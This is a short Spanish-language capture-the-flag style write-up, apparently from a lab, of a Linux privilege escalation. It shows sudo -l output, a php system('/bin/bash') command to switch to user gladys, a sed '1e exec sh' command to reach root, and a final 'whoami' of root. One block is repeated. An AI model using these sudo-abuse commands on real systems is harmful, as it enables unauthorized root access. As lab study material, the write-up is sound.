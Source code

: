 Explotando privilegio:
```bash
# comando para escalar al usuario: (gladys  )
sudo -u gladys /usr/bin/php -r "system('/bin/bash');"
```

###### Usuario `[ Gladys ]`:
Listando los permisos del usuario
```bash
sudo -l

User bobby may run the following commands on a2727baaa416:
    (gladys) NOPASSWD: /usr/bin/php # Tenemos una via potencial de migrar a este usuario
```

Explotando privilegio:
```bash
# comando para escalar al usuario: (gladys  )
sudo -u gladys /usr/bin/php -r "system('/bin/bash');"
```

Ahora usamos este comando para escalar a **root**
```bash
sudo sed -n '1e exec sh 1>&0' /etc/hosts
```

---
## Evidencia de Compromiso
```bash
# Captura de pantalla o output final
whoami
root
```

---